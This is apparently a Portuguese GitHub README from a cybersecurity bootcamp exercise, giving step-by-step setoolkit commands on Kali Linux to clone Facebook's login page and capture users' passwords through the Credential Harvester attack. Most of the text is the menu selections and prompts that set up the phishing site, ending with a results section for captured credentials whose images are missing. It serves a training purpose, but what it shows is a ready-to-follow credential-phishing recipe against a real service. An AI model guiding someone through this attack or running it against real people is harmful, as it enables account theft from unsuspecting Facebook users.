


# 📐 Desafio de Projeto 🚀

## Phishing para captura de senhas do Facebook

Neste desafio de projeto, iremos criar um Phishing para capturar senhas de login do Facebook.

### Ferramentas

-  Kali Linux</img> 
-  setoolkit</img>

### Configurando o Phishing no Kali Linux

- Acesso root:
 ``` shell
(lucas@kali)-[~]$ sudo su [ENTER]
[sudo] password for lucas: ***** [ENTER]
 ```
- Iniciando o setoolkit:
 ``` shell
 (root@kali)-[/home/lucas]# setoolkit [ENTER]
 ```
- Aceitando os Termos:
 ``` shell
 Do you agree to the terms of service [y/n]: y [ENTER]
 ```
- Tipo de ataque: 
``` shell
Select from the menu:

  1) Social-Engineering Attacks
  2) ...

  99) Exit ...

set> 1 [ENTER]
```
- Vetor de ataque: 
``` shell
Select from the menu:

   1) ...
   2) Web Site Attack Vectors
   3) ...

   99) Return ...

set> 2 [ENTER]
 ```
- Método de ataque: 
``` shell
  1) ...
  2) ...
  3)Credential Harvester Attack Method

  99) Return ...

set:webattack> 3 [ENTER]
```
- Método de ataque: 
```shell
  1) ...
  2) Site Cloner
  
  99) Return ...

  set:webattack> 2 [ENTER]
 ```
- Obtendo o IP da sua máquina para torná-la um servidor temporário:
```shell
set:webattack> IP address for the POST back in Harvester/Tabnabbing [SEU IP VAI APARECER AQUI]: [ENTER PARA USAR O SEU IP]
```
- URL para clone:
```shell
set:webattack> Enter the url to clone: http://www.facebook.com
 ```

### Resutados

#### Facebook Fake



#### Usuário e Senha Capturados



---

🚧 Projeto da [Dio.me](https://web.dio.me) do curso:

<p>
Santander Bootcamp Cibersegurança</img> 
</p>
